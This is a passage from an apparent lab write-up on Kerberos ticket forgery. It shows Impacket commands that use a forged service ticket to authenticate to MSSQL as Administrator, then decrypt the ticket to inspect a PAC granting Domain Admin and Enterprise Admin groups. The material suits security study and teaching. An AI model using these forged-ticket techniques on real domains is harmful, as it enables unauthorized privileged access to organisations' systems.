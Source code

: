 We can now use this forged ticket to authenticate to the `MSSQL` service on `sql01.antennae.rv` as `Administrator`:

```
~$ export KRB5CCNAME=Administrator.ccache
~$ mssqlclient.py -k -no-pass sql01.antennae.rv                                       
Impacket v0.13.0.dev0+20250813.95021.3e63dae - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(SQL01): Line 1: Changed database context to 'master'.
[*] INFO(SQL01): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server 2022 RTM (16.0.1000)
[!] Press help for extra shell commands
SQL (ANTENNAE.RV\Administrator  dbo@master)> 
```

If we decrypt the ticket using `describeTicket.py`, and inspect the `PAC` - we'll find that the `PAC_LOGON_INFO` structure now contains information about the `Administrator` user:

```
~$ describeTicket.py Administrator.ccache --rc4 'dafede3a0d35ddb28147bd418e4cd53b'
Impacket v0.13.0.dev0+20250813.95021.3e63dae - Copyright Fortra, LLC and its affiliated companies 

[*] Number of credentials in cache: 1

[...snip...]

[*] Decoding unencrypted data in credential[0]['ticket']:
[*]   Service Name                : MSSQLSvc/sql01.antennae.rv
[*]   Service Realm               : ANTENNAE.RV
[*]   Encryption type             : rc4_hmac (etype 23)
[*] Decoding credential[0]['ticket']['enc-part']:
[*]   LoginInfo                   
[...snip...]
[*]     Account Name              : Administrator
[*]     Logon Count               : 500
[*]     Bad Password Count        : 0
[*]     User RID                  : 500
[*]     Group RID                 : 513
[*]     Group Count               : 5
[*]     Groups                    : 513, 512, 520, 518, 519
[*]     Groups (decoded)          : (513) Domain Users
[*]                                 (512) Domain Admins
[*]                                 (520) Group Policy Creator Owners
[*]                                 (518) Schema Admins
[*]                                 (519) Enterprise Admins
[*]     User Flags                : (0) 
[*]     User Session Key          : 00000000000000000000000000000000
[*]     Logon Server              : 
[*]     Logon Domain Name         : ANTENNAE.RV
[*]     Logon Domain SID          : S-1-5-21-1843653573-2831615454-1469364877
[*]     User Account Control      : (528) USER_NORMAL_ACCOUNT, USER_DONT_EXPIRE_PASSWORD
[*]     Extra SID Count           : 0
[*]     Extra SIDs                :
[*]     Resource Group Domain SID :
[*]     Resource Group Count      : 0
[*]     Resource Group Ids        : 
[*]     LMKey                     : 0000000000000000
[*]     SubAuthStatus             : 0
[*]     Reserved3                 : 0
```
### Accessing MSSQL as Administrator